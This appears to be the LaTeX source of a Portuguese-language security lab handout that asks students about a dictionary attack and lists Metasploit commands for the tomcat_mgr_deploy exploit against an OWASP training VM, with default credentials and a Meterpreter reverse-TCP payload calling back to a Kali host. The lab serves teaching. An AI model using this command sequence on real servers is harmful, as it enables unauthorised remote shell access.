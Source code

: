\documentclass{article}
\newcommand{\code}[1]{\texttt{#1}}
\begin{document}
    \begin{superframe}
        \begin{enumerate}
            \setcounter{enumi}{13}
            \item Copie e cole a screenshot da sua tela ao realizar o
                experimento anterior. Depois, explique o experimento:

                \begin{enumerate}
                    \item O que é o ataque do dicionário?
                    \item O que foi encontrado?
                    \item Qual foi a vulnerabilidade usada para obter esse
                        resultado?
                    \item Como pode ser explorado esse resultado?
                \end{enumerate}
        \end{enumerate}
    \end{superframe}

    O \code{tomcat\_mgr\_deploy} pode usar diferentes payloads. O payload
    identifica o código que o módulo deve executar e que deve ser entregue ao
    alvo.

    \begin{verbatim}
        msf exploit(tomcat_mgr_deploy) > show payloads
    \end{verbatim}

    Digite os comandos:

    \begin{verbatim}
        msf > use exploit/multi/http/tomcat_mgr_deploy
        msf exploit(tomcat_mgr_deploy) > set RHOSTS x.x.x.x (IP da máquina Owasp)
        msf exploit(tomcat_mgr_deploy) > set HttpUsername root
        msf exploit(tomcat_mgr_deploy) > set HttpPassword owaspbwa
        msf exploit(tomcat_mgr_deploy) > set RPORT 8080
        msf exploit(tomcat_mgr_deploy) > show options
        msf exploit(tomcat_mgr_deploy) > show payloads
        msf exploit(tomcat_mgr_deploy) > set payload java/meterpreter/reverse_tcp
        msf exploit(tomcat_mgr_deploy) > show options
        msf exploit(tomcat_mgr_deploy) > set LHOST 10.1.2.7 -> colocar IP da Kali
        msf exploit(tomcat_mgr_deploy) > exploit
    \end{verbatim}

    Nesse prompt (meterpreter) podem ser executados comandos. Ao conseguir
    chegar no prompt do meterpreter você está com um tipo de shell na máquina
    alvo. Digite help no prompt do meterpreter para listar os comandos
    possíveis que poderão ser executados.
\end{document}
